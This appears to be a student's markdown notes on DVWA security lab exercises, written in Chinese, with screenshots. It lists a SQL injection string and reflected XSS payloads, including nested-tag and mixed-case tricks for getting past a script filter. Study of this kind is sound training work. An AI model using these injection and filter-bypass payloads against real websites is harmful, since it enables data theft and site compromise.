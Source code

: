 ## DVWA Security
```
新手指南：DVWA-1.9全级别教程（完结篇，附实例）之XSS 
https://www.freebuf.com/articles/web/123779.html
```
### SQL injection:LOW
#### 瀏覽全部資料 1' or '1'='1
![image](https://github.com/kampfcl3/AI_2020/blob/main/security/pic/SQL%20injection1.png)
### XSS(Reflected): LOW
#### <b>aaa</>
![image](https://github.com/kampfcl3/AI_2020/blob/main/security/pic/xss(reflected)1.png)
#### 跑馬燈 <marquee/>hello</>
![image](https://github.com/kampfcl3/AI_2020/blob/main/security/pic/xss(reflected)2.png)
#### 跳視窗 <script>alert(/ya~/)</script>
![image](https://github.com/kampfcl3/AI_2020/blob/main/security/pic/xss(reflected)3.png)
#### XSS(Reflected): Medium
#### 1.跳視窗(錯位混淆) <sc<script>ript>alert(/xss/)</script>
```
erro畫面: <script>alert(/ya~/)</script>
```
![image](https://github.com/kampfcl3/AI_2020/blob/main/security/pic/xss(reflected)4.png)
```
中階會將<script>給砍掉變空白，所以可以利用錯位的方式去混淆，以達成目標
```
#### 2.跳視窗(大小寫混淆) <ScRipt>alert(/xss/)</script>
```
同跳視窗1，另用大小寫的方式去繞過檢測
```

